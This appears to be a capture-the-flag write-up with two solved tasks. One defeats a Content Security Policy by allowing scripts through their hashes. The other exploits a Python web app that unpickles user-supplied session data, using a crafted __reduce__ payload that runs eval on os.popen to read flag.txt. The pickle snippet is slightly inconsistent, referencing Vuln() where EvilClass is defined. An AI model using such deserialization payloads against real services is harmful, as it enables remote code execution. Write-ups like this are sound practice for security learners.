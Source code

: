 # tasks

## file-csp-1

`/test` to test your payload
`/verify` to get the flag

### what we actually need to do ?  

We got 4 scripts running in our page.
To get how can we let each one of them pass we can just do in our *Chrome Devtools*

```http
script-src 'none'
```

and we follow the instruction we got a *URL src* and a 2 hashes.

**final payload**
we are enabling the script *c* and *d* with their hashes we can sue the src-url too

```http
script-src 'sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4=' 'sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8='
```

## web-deserialize-python

A simple python pickle

*vulnerable code*

```python
session = request.form.get('session', '')
info = pickle.loads(base64.b64decode(session))
```

It takes the sesison which is a user input and web-deserialize it ! We can use that to read the `flag.txt` file

**what we should do ?**
use an interactive python console and get what you should passs as an input

```py
class EvilClass(object):
          def __reduce__(self):
              # reading the flag
              command = "os.popen('cat ./flag.txt').read()" 
              # eval to get execute the instruction on load
              return (eval, (command,))

      # that's the variable we are getting on the frontend
      info = {
          "userid": Vuln(),
      }
pickleData = base64.b64encode(pickle.dumps(info)).decode("utf8")
```
